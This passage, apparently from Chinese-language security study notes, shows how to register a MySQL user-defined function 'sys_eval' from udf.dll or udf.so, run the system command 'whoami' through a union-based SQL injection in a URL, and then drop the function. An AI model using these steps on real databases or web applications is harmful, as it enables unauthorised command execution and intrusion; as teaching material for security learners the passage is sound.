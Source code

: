 ![create_func](004_第四周—数据库系统功能相关学习/1127869-20190825142856668-215242558-1567178505195.png)

PS：win使用：`create function sys_eval returns string soname 'udf.dll';`

> Linux使用：`create function sys_eval returns string soname 'udf.so';`



### 3.8.执行系统命令

这时候你通过浏览器执行远程命令也是可以的：

> PS：url构造：`index.php?id=1 union select sys_eval('whoami'),2`

![exec](004_第四周—数据库系统功能相关学习/1127869-20190825130511233-38278163-1567178505197.png)

PS：删除函数：`drop function sys_eval;`

